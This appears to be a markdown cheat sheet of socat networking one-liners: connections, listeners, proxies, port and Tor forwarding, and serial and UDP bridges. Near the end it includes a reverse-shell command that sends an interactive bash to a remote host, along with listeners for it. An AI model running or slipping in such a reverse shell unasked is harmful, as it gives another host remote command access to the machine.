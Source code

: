```yaml
---
tags: [ networking ]
---
```

# socat connect to http-server (port 80 on 'butzel.info')
socat TCP4:butzel.info:80 -

# connect to https-server (port 443 on 'butzel.info' with tls)
socat openssl:butzel.info:443 -

# tcp-listener (port 3180), output as hexdump (-x) and fork for new connetions
socat -x tcp-listen:3180,fork -

# practical examples:

# complete real working http-example:  
#  (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ 
| socat tcp4:butzel.info:80 -

# http to httpS 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# port forwarding (e.g. own port 3180 to port 22(ssh) on target
socat TCP4-LISTEN:3180,reuseaddr,fork TCP4:butzel.info:ssh

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050

# network (port 8266) to serial bridge (/dev/ttyUSB0 baudrate: 115200)
socat TCP4-LISTEN:8266,fork,reuseaddr /dev/ttyUSB0,raw,crnl,b115200

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# reverse shell:
socat exec:'bash -i',pty,stderr tcp:remote.butzel.info:3180

# listener for above reverse shell (on remote.butzel.info):
socat file:`tty`,raw,echo=0 tcp-listen:3180
# or: nc -lp 3180
